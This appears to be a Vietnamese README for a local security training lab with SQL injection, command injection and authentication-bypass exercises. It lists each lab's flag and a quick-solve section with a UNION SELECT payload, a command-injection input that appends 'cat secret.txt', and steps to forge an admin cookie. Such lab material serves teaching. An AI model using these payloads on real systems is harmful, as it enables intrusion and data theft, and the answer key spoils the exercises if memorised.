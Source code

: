 # 🎉 Dự Án Security Lab - HOÀN THÀNH

## ✅ Tổng Quan

**Version:** 1.3.0  
**Ngày hoàn thành:** 16/10/2025  
**Số lượng labs:** 3 labs  
**Tổng số FLAGS:** 3 flags  

## 🔬 Danh Sách Labs

| # | Lab | URL | FLAG |
|---|-----|-----|------|
| 1 | SQL Injection | `/lab/sqli` | `FLAG{SQL_1nj3ct10n_M4st3r}` |
| 2 | Command Injection | `/lab/cmdi` | `FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}` |
| 3 | Authentication Bypass | `/lab/auth` | `FLAG{4uth_Byp4ss_C00k13_H4ck}` |

## 🚀 Quick Start

```bash
# Cài đặt
npm install

# Khởi động
npm start

# Truy cập
http://localhost:3000
```

## 🎯 Khai Thác Nhanh

### Lab 1: SQL Injection
```sql
' UNION SELECT id, flag FROM secret--
```

### Lab 2: Command Injection
```bash
8.8.8.8; cat secret.txt
```

### Lab 3: Authentication Bypass
```
1. Login: user1 / password1
2. F12 → Cookies → Sửa auth = admin:admin123
3. Refresh → Xem FLAG
```
